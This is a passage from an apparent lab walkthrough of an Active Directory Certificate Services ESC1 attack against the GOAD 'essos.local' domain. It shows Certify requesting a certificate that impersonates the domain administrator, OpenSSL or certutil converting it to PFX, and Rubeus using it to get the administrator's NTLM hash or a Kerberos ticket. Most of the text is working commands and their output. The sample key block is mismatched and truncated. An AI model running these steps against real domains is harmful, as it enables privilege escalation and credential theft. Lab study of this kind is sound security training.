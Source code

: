 Perfect! Now let's request a certificate for the domain administrator. Request certificate impersonating Domain Admin:

**⚠️ Important:** For accuracy and to avoid certificate mismatch issues, we should always aim to provide the `/sid` parameter which should be the SID of the user we are targeting (administrator in this case).

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC1 /altname:essos\administrator /sid:S-1-5-21-1394808576-3393508183-1134699666-500

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] No subject name specified, using current context as subject.

[*] Template                : ESC1
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local
[*] AltName                 : essos\administrator

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA

[*] CA Response             : The certificate has been issued.
[*] Request ID              : 7

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA2hT8F6PSyEzGCq5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQW
...certificate data...
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now let's convert to PFX format for use with Rubeus. There are two methods:

**Method 1: Using OpenSSL (cross-platform)**
```bash
openssl pkcs12 -in cert.pem -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out administrator.pfx
```

**Method 2: Using certutil (Windows native)**
```bash
# Save the private key and certificate to separate files
# cert.key (from -----BEGIN RSA PRIVATE KEY----- to -----END RSA PRIVATE KEY-----)
# cert.pem (from -----BEGIN CERTIFICATE----- to -----END CERTIFICATE-----)

# Then merge them with certutil
certutil -MergePFX .\cert.pem .\administrator.pfx
```

Use Rubeus to either request NTLM hash directly or get a Kerberos TGT:

```bash
# Get NTLM Hash directly
Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /getcredentials

# Or get TGT (traditional method)
Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:mimikatz

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

```